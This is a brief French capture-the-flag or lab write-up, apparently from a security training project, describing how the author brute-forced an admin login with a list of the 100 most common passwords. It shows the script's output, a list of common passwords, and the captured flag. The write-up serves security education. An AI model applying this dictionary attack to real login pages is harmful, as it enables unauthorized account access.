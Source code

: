  # Weak Password

- La DB s'appelle Member_Brute_Force on comprends donc qu'il faut bruteforce le mot de passe
- Je cree un script qui bruteforce avec les 100 passwords les plus utilise
```
$> python3 script.py
123456
password
12345678
qwerty
123456789
12345
1234
111111
1234567
dragon
123123
baseball
abc123
football
monkey
letmein
696969
shadow
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```
- On voit que le mot de passe shadow retourne une page plus grande que les autres
- On entre donc les login admin shadow et on a le flag
```
The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```
